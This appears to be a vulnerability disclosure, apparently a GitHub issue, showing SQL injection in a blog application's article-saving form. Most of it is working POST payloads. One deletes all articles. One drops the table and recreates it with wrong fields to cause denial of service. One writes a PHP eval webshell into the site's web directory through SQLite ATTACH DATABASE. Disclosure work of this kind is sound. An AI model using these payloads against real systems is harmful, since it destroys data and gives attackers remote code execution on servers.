 1. Malicious Deletion of Database
Constructing a POST request:

```
title=rrr',"ggg",''); DELETE FROM articles; --&content=rrr&save=Save
```

![Alt text](image-3.png)

All articles have been deleted
![Alt text](image-2.png)

2. Denial of Service

After deleting the "articles" table, recreating it with mismatched fields:
```

title=rrr',"ggg",''); DROP TABLE articles; CREATE TABLE IF NOT EXISTS articles (fake_title TEXT) --&content=rrr&save=Save
```

![Alt text](image-4.png)

After this, no matter how you try to click "add new," it is impossible to create an article.

3. inject weshell

webshell can be injected when the security of the platform on which the service is installed is insufficient

```
title=2622',"333",'');ATTACH DATABASE '/opt/1panel/apps/openresty/openresty/www/sites/sblog/index/shell.php' AS shell;create TABLE shell.exp (webshell text);insert INTO shell.exp (webshell) VALUES ('\r\n\r\n<?php eval($_POST[whoami]);?>\r\n\r\n');
  --&content=7677&save=Save
```